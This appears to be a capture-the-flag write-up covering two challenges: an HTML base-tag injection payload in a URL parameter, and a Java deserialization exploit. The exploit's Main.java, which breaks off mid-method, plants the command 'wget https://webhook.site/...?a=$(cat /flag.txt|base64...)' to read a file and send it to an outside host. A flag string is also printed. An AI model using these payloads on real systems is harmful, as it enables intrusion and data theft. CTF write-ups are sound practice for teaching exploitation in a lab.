 REF : `https://www.mozilla.org/en-US/security/advisories/mfsa2022-40/#CVE-2022-40956`

## Steps

1. Use the following payload in the URL: `http://54.205.207.242/index.php?src='><base href=//server/>`

2. The flag will be in the user agent once the server requests your server.

## Flag

FLAG{You_StoLe_AmaDO_ForbiDDen_CybOrg_Jutsu}

# 6th challenge: Missions Forum

The goal of this challenge is to use a Java deserialization vulnerability to access the flag file.

## Steps

1. Use the dirsearch tool to find two backup files in the `/backup` directory.
2. Based on these files, it is likely that there is a Java deserialization vulnerability.
3. Create all of the necessary folders in the same order as the package name and use the provided `Main.java` file to generate a base64 payload

```
➜   mkdir com
➜   mkdir com/yogosha
➜   mkdir com/yogosha/entities
➜   mkdir com/yogosha/utils
➜   touch com/yogosha/entities/Entity.java
➜   touch com/yogosha/utils/Utils.java
➜   mkdir com/yogosha/controllers
➜   mv MissionDebug.java com/yogosha/utils/
➜   javac com/yogosha/utils/MissionDebug.java
➜   mv Main.java com/yogosha/utils/
➜   javac com/yogosha/utils/Main.java
➜   java com/yogosha/utils/Main
```

And `Main.java` :

```
 package com.yogosha.utils;
 import java.io.ByteArrayInputStream;
 import java.io.ByteArrayOutputStream;
 import java.io.IOException;
 import java.io.ObjectOutputStream;
 import java.util.Base64;
 import java.io.IOException;
 import java.lang.reflect.Field;

public class Main {
  public static void main(String[] args) {

    try {
        MissionDebug mission = new MissionDebug();
        Field debugField = mission.getClass().getDeclaredField("debug");
        debugField.setAccessible(true);
        debugField.set(mission, new String("sh -c $@|sh . echo wget https://webhook.site/xxxxxx?a=$(cat /flag.txt|base64|tr -d \"\n\")"));
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(mission);
        byte[] missionBytes = baos.toByteArray();
        String base64Mission = Base64.getEncoder().encodeToString(missionBytes);
```